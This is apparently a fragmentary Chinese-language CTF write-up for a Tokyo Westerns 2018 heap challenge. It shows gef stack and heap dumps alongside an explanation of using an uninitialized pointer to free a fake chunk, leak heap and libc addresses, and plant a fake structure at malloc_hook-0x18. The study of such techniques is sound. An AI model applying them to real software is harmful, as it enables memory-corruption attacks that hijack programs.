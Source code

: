     gef➤  x/50gx 0x7ffc698a3a78 
    0x7ffc698a3a78:	0x00007f97a4ac85e8	0x000055e33a074980
    0x7ffc698a3a88:	0x00007f97a4e128e0	0x00007ffc698a3b60
    0x7ffc698a3a98:	0x00007f97a4ac960e	0x0000000000000000
    0x7ffc698a3aa8:	0x00007f97a4abcc6a	0x000055e33a074980
    0x7ffc698a3ab8:	0x00007ffc698a3b60	0x0000000100000000
    0x7ffc698a3ac8:	0x0000000000000000	0x00007ffc698a3bc0
    0x7ffc698a3ad8:	0x00007f97a4e128e0	0x00007ffc698a3b60
    0x7ffc698a3ae8:	0x0000000000000000	0x00007ffc698a3cc0
    0x7ffc698a3af8:	0x0000000000000000	0x0000000000000000
    0x7ffc698a3b08:	0x00007f97a4abbb7d	0x0000000000000000
    0x7ffc698a3b18:	0x00007ffc698a3b50	0x000055e33a074980
    0x7ffc698a3b28:	0x000055e33a07513b	0x000000400000000a
    0x7ffc698a3b38:	0x00007ffc698a3b60	0x00007ffc698a3cc0
    0x7ffc698a3b48:	0x00007f97a4ac881b	0x00007ffc698a3bb0
    0x7ffc698a3b58:	0x000055e33a07518f	0x000055e33a075300
    0x7ffc698a3b68:	0x00007f97a4abd7fa	0x0000000000000000
    0x7ffc698a3b78:	0x00007ffc698a3bc0	0x000055e33a074980
    0x7ffc698a3b88:	0x000055e33a074e58	0x0000000543434343<---index
    0x7ffc698a3b98:	0x000055e33ae0c100<--ptr	0x000055e33a075248
    0x7ffc698a3ba8:	0xa3cb1c8c10f32600	0x00007ffc698a3bc0
    0x7ffc698a3bb8:	0x000055e33a074b8b	0x00007ffc698a3be0
    0x7ffc698a3bc8:	0x000055e33a074ad3	0x00007ffc698a3cc0
    0x7ffc698a3bd8:	0x0000000000000003	0x000055e33a0751c0
    0x7ffc698a3be8:	0x00007f97a4a6e830	0x00007ffc698a3cc8
    0x7ffc698a3bf8:	0x00007ffc698a3cc8	0x00000001a4bda608
原函数：

      __int64 v0; // rax
      int v2; // [rsp+4h] [rbp-2Ch]
      struct grridle *ptr; // [rsp+8h] [rbp-28h] not init
                           //                    
      unsigned __int64 v4; // [rsp+28h] [rbp-8h]
v2就是传入的index：

可以看到指向的地址是我们可以控制的地方，可以令其指向一个name。
这样如果将name搞得像一个grridle结构差不多的话就可以将他free掉之后泄露堆地址了。
这样的话我们就可以构造一个伪造的大小在unsortedbin范围内的堆块，free掉之后就可以泄露地址

而后要在malloc_hook-0x18处构造一个伪造的food结构体，首先申请一个name为malloc_hook - 0x18的堆块
构造之后堆得布局如下

    0x5582080d3040:	0x0000000000000000	0x0000000000000021
    0x5582080d3050:	0x00005582080d3010	0x000000000000007b
    0x5582080d3060:	0x00005582080d3070	0x0000000000000031
    0x5582080d3070:	0x4141414141414141	0x4141414141414141
    gef➤  
    0x5582080d3080:	0x4141414141414141	0x0000414141414141
    0x5582080d3090:	0x0000000000000000	0x0000000000000021
    0x5582080d30a0:	0x00005582080d3050	0x0000000000000021
    0x5582080d30b0:	0x00005582080d30d0	0x00007f09679f2c48
    gef➤  
    0x5582080d30c0:	0x000000cafebabe33	0x0000000000000021
    0x5582080d30d0<---head:	0x00005582080d3120	0x00007f09000003e7
    0x5582080d30e0:	0x00005582080d30f0	0x0000000000000021
    0x5582080d30f0:	0x00007f09679f2af8	0x00007f09679f2b78
    gef➤  
    0x5582080d3100:	0x00005582080d3140	0x0000000000000081
    0x5582080d3110:	0x00007f09679f2b78	0x00007f09679f2b78
    0x5582080d3120:	0x00005582080d3100	0x000000000000007b
    0x5582080d3130:	0x00005582080d30b0	0x0000000000000021
    gef➤  
    0x5582080d3140:	0x00005582080d30e0	0x000000000000007b
    0x5582080d3150:	0x00005582080d3160	0x0000000000000031
    0x5582080d3160:	0x4343434343434343	0x4343434343434343

  [1]: https://changochen.github.io/2018/09/01/Tokyo-Western_CTF-2018/